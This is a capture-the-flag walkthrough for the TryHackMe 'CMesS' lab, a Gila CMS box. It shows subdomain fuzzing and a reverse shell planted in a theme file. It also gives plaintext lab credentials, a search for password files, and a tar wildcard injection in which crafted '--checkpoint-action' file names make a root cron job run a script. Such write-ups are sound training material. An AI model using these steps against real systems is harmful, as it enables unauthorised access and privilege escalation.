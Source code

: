 # [CMesS](https://tryhackme.com/room/cmess)

## Can you root this Gila CMS box?

# Flags

## Please also note that this box does not require brute forcing!

### Compromise this machine and obtain user.txt

_Have you tried fuzzing for subdomains?_

1. Fuzz for subdomains to discover hidden services
   - Add the discovered `dev` to `/etc/hosts`

```bash
wfuzz -c -w /root/Tools/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cmess.thm -H "Host: FUZZ.cmess.thm" -hw 290
```

> Use `--hh 290` to hide responses with the common HTML size of 290 bytes, which filters out invalid subdomains

[SCREEN01]

[SCREEN02]

2. In `http://dev.cmess.thm/`, we find a development log containing credentials
   - The credentials are `andre@cmess.thm:KPFTN_f2yxe%`

[SCREEN03]

3. Use the credentials to log in to `http://cmess.thm/admin`

4. To gain a shell on the target system, set up a netcat listener on our attacking machine

```bash
nc -lvnp 4444
```

5. Add [PHP Reverse Shell Payload](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) somwhere, for example in `http://cmess.thm/admin/fm?f=themes/gila-blog/footer.php`. Refresh the main page of the blog to get the shell

[SCREEN04]

[SCREEN05]

6. Once the connection is established, upgrade the shell for better functionality

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

7. Search for password files that might help with lateral movement
   - The password is **UQfsdCB7aAP6**

```bash
find / -type f -name "*password*" 2>/dev/null
cat /opt/.password.bak
```

[SCREEN06]

8. Switch to the `andre` user and retrieve the user flag

```bash
su andre
cat /home/andre/user.txt
```

[SCREEN07]

---

# Escalate your privileges and obtain root.txt

1. Examine the home directory for clues. The note in `/home/andre/backup/note` provides valuable information. The note suggests there's a scheduled backup job running with elevated privileges

```bash
cat /home/andre/backup/note
```

[SCREEN08]

2. Check the system's scheduled tasks. There is a TAR wildcard vulnerability in a root cronjob that runs every 2 minutes. The job is backing up the `/home/andre/backup` directory using tar. Create an exploit that uses tar's checkpoint feature to execute arbitrary commands

```bash
cat /etc/crontab

echo 'cp /root/root.txt /home/andre/root.txt && chmod 777 /home/andre/root.txt' > /home/andre/backup/runme.sh
chmod +x /home/andre/backup/runme.sh
touch "/home/andre/backup/--checkpoint=1"
touch "/home/andre/backup/--checkpoint-action=exec=sh runme.sh"
```

3. Wait for the cron job to execute (within 2 minutes), then retrieve the root flag

```bash
ls /home/andre
cat /home/andre/root.txt
```

[SCREEN10]
